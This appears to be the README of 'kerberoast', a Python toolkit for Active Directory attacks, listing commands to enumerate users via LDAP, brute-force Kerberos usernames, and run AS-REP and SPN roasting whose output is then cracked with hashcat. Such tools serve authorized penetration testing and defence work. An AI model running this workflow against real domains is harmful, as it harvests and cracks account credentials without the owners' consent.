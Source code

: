 # kerberoast
Kerberos attack toolkit -pure python-

![kerbi_logo_big,50%](https://user-images.githubusercontent.com/19204702/84300988-eb5bbc80-ab07-11ea-93c1-35853203d7bf.png)

### Install
```pip3 install kerberoast```   

#### Prereqirements
Python 3.6
See requirements.txt


### For the impatient
IMPORTANT: the accepted target url formats for LDAP and Kerberos are the following  
```<ldap_connection_url>``` : ```<protocol>+<auth-type>://<domain>\<user>:<password>@<ip_or_hostname>/?<param1>=<value1>```  
```<kerberos_connection_url>```: ```<protocol>+<auth-type>://<domain>\<user>:<password>@<ip_or_hostname>/?<param1>=<value1>```  

Steps -with SSPI-:
```kerberoast auto <DC_ip>```  

Steps -SSPI not used-:  
1. Look for vulnerable users via LDAP  
```kerberoast ldap  all <ldap_connection_url> -o ldapenum```
2. Use ASREP roast against users in the ```ldapenum_asrep_users.txt``` file  
```kerberoast asreproast <DC_ip> -t ldapenum_asrep_users.txt```
3. Use SPN roast against users in the ```ldapenum_spn_users.txt``` file  
```kerberoast spnroast <kerberos_connection_url> -t ldapenum_spn_users.txt```
4. Crack SPN roast and ASPREP roast output with hashcat   

## Commands
### ldap
This command group is for enumerating potentially vulnerable users via LDAP.  
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast ldap <type> <ldap_connection_url> <options>```  
  
```Type```: It supports three types of users to be enumerated  
1. ```spn``` Enumerates users with ```servicePrincipalName``` attribute set.  
2. ```asrep``` Enumerates users with ```DONT_REQ_PREAUTH``` flag set in their UAC attribute.
3. ```all``` Startes all the above mentioned enumerations.

```ldap_connection_url```:  Specifies the usercredential and the target server in the msldap url format (see help)  
  
```options```:  
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name  

### brute
This command is to perform username enumeration by brute-forcing the kerberos service with possible username candidates  
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast brute <realm> <dc_ip> <targets> <options>```  
  
```realm```: The kerberos realm usually looks like ```COMPANY.corp```  
```dc_ip```: IP or hostname of the domain controller  
```targets```: Path to the file which contains the possible username candidates  
```options```:   
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name 

### asreproast
This command is to perform ASREProast attack
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast asreproast <dc_ip> <options>```  
  
```dc_ip```: IP or hostname of the domain controller  
```options```:  
&nbsp;&nbsp;&nbsp;&nbsp;```-r```: Specifies the kerberos realm to be used. It overrides all other realm info.  
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name  
&nbsp;&nbsp;&nbsp;&nbsp;```-t```: Path to the file which contains the usernames to perform the attack on   
&nbsp;&nbsp;&nbsp;&nbsp;```-u```: Specifies the user to perform the attack on. Format is either ```<username>``` or ```<username>@<realm>``` but in the first case, the ```-r``` option must be used to specify the realm  
  
## spnroast
This command is to perform SPNroast (AKA kerberoast) attack.  
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast spnroast <kerberos_connection_url> <options>```  
  
```kerberos_connection_url```: Specifies the usercredential and the target server in the kerberos URL format (see help) 

```options```:  
&nbsp;&nbsp;&nbsp;&nbsp;```-r```: Specifies the kerberos realm to be used. It overrides all other realm info.  
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name  
&nbsp;&nbsp;&nbsp;&nbsp;```-t```: Path to the file which contains the usernames to perform the attack on   
&nbsp;&nbsp;&nbsp;&nbsp;```-u```: Specifies the user to perform the attack on. Format is either ```<username>``` or ```<username>@<realm>``` but in the first case, the ```-r``` option must be used to specify the realm  
